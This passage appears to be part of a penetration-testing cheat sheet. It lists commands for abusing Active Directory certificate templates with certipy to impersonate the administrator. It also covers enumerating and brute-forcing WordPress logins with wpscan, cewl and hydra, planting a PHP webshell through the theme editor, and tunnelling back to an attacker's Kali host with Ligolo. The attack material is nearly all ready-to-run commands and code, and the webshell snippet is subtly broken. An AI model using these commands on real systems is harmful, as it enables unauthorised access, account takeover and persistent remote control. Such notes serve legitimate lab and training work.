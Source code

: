 On Kali:
```
certipy-ad find -u user -p password -target {CA_ip} -text -stdout -vulnerable
certipy-ad req -u user -p password -target {CA_ip} -upn administrator@{CA_ip} -ca {ca name} -template {template name}
certify auth -pfx cert.pfx
```
#### Wordpress

`wp-scan {url} --enumerate`

**Generate wordlist:**
`cewl {url} > custom_list.txt`

**Bruteforce wordpress login:**

```
hydra -l admin -P custom_list.txt -s {target port} {target ip} http-post-form
"/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.192.106%2Fwp-admin%2F&testcookie=1:Invalid Username"

```

**Get shell:**
**Edit theme plugin:**

**Appearance -> Theme Editor -> Theme Functions**

**function webshell() {**

**echo shell_execute($_GET[‘cmd’]);**

**}**

**add_action(‘wp_head’, ‘webshell’);**

**Update File**

**Trigger: http://web/?cmd=whoami**


#### Tunneling
**Ligolo**

Proxy:
```
sudo ip tuntap add user kali mode tun ligolo

sudo ip link set ligolo up

./lin-proxy -selfcert -laddr 0.0.0.0:443
```

Transfer agent to target
```
.\lin-agent.exe -connect {kali_ip}:443 -ignore-cert 
```

On server:
```
session
ifconfig
```
